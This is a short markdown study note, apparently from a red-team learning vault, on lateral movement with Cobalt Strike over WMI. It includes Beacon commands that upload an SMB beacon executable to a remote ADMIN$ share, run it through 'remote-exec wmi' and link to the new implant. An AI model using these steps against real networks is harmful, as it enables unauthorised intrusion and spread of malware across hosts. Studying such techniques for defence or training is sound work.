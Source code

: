 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[WMI (Windows Management Instrumentation)]]  
___

## Description:  
For Lateral Movement in Cobalt Strike

The `remote-exec` method uses WMI's "process call create" to execute any command we specify on the target. The most straight forward means of using this is to upload a payload to the target system and use WMI to execute it.

Generate an x64 Windows EXE for the SMB listener, upload it to the target by `cd`'ing to the desired UNC path and then use the `upload` command.

```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
Started process 536 on srv-1
```

The process is now running on SRV-1 so now we need to connect to it.
```
beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:03 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
